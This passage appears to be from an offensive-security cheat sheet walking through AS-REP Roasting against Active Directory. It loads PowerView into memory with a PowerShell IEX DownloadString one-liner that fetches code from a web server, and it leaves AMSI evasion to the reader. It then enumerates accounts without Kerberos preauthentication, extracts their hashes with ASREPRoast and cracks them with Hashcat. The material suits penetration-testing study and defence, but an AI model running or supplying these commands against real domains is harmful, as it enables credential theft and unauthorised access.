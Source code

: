 

#### [](#header-4)Powerview



 **Enumeration**

First let's import `PowerView.ps1` into Memory with 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')
```



As said above under `Kerberoasting` `AMSI` will probably flag this on `WIN10 1803` but I will leave evasion upto yourselves.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

```powershell
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

You can also do the below

```powershell
Get-DomainUser victimuser | Convert-FromUACValue
```



**Exploit**

Armed with our target user with `DONT_REQ_PREAUTH` set we can now request the relevant ticket to crack offline. Sadly `PowerView.ps1` does not have a ASREP Roasting Function included however the author `harmj0y` or `PowerView` created a fantastic module to do this with

*https://github.com/HarmJ0y/ASREPRoast*



Simply Import the Module with 

```powershell
Import-Module .\ASREPRoast.ps1
```



And now we can simply run

```powershell
Get-ASRepHash -Domain m0chanAD.local -UserName m0chan
```



This will return a Hash which you can crack with Hashcat with the below Syntax

```powershell
hashcat64.exe -a 0 -m 7500 asrep.hash /wordlists/rockyou.txt
```



*PS: You will have to install the latest version of Hashcat to get the support for AS-REP Cracking* 
